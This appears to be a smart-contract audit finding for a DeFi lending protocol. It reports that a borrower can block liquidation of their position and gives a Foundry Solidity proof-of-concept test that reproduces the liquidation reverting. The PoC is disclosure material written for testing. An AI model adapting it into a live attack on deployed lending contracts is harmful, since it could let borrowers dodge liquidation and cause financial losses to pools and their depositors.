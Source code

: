 A user could still stop liquidations for as long as the accrued interest doesn't reach the last debt value before liquidation, if the user liquidated a bigger part of the debt.

Add the following test to `TestInitCore.sol`:

```solidity
function test_POC_Liquidate_reverts_frontrunning_PosManager_WrongAssumption() public {
    address poolUSDT = address(lendingPools[USDT]);
    address poolWBTC = address(lendingPools[WBTC]);
    _setTargetHealthAfterLiquidation_e18(1, type(uint64).max); // by pass max health after liquidate capped
    _setFixedRateIRM(poolWBTC, 0.1e18); // 10% per sec

    uint collAmt;
    uint borrAmt;

    {
        uint collUSD = 100_000;
        uint borrUSDMax = 80_000;
        collAmt = _priceToTokenAmt(USDT, collUSD);
        borrAmt = _priceToTokenAmt(WBTC, borrUSDMax);
    }

    address liquidator = BOB;
    deal(USDT, ALICE, collAmt);
    deal(WBTC, liquidator, borrAmt * 2);

    // provides liquidity for borrow
    _fundPool(poolWBTC, borrAmt);

    // create position and collateralize
    uint posId = _createPos(ALICE, ALICE, 1);
    _collateralizePosition(ALICE, posId, poolUSDT, collAmt, bytes(''));

    // borrow
    _borrow(ALICE, posId, poolWBTC, borrAmt, bytes(''));

    // fast forward time and accrue interest
    vm.warp(block.timestamp + 1 seconds);
    ILendingPool(poolWBTC).accrueInterest();

    uint debtShares = positionManager.getPosDebtShares(posId, poolWBTC);

    _liquidate(liquidator, posId, 1, poolWBTC, poolUSDT, false, bytes(''));

    // liquidate all debtShares
    _liquidate(liquidator, posId, 1000, poolWBTC, poolUSDT, false, bytes('panic'));
}
```

### Tools Used

Vscode, Foundry
